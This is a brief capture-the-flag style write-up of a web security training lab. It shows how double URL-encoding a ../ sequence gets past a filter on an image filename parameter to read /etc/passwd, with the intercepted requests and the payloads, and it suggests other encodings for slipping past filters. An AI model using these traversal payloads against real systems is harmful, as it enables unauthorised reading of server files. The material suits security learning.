

---

- **Target:** Path Traversal Lab - traversal sequences stripped with superfluous URL-decode
- **Author:** sonyahack1
- **Date:** 05.05.2025

---


> The vulnerability is contained in the display of product images.
> I open any product card and open its image in a new tab


## Intercepting the display image request in BurpSuite

> intercepting:

```html

GET /image?filename=21.jpg HTTP/2
Host: 0adc008c04f6c0de80de62bd00620084.web-security-academy.net
Cookie: session=PitUu9iyQheAZpD7b****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0adc008c04f6c0de80de62bd00620084.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i
Te: trailers

```

> Sometimes many applications may reduce the full path in the parameter or even delete it if it starts with the sequence ```../``` or ```..\```


> I try common url-encode **../../../../etc/passwd** in **CyberChief** resource

```html

GET /image?filename=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd HTTP/2

```

> Result:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> but it didn't work

> Ok. I try double url-encode **../../../../etc/passwd** in **CyberChief** also:


```html

GET /image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd HTTP/2

```

> Result:



> it's work.


> **Note:** It is worth noting one thing. The encoding can be any in principle. For example, you can try with **base64**, **base58**, **Escape Unicode Characters**, **html** etc.
> The only question is what the server will be able to filter and what it will not. In this lab, **double url-encoding** of the payload worked. Double encoding can also
> be applied to other types described above.


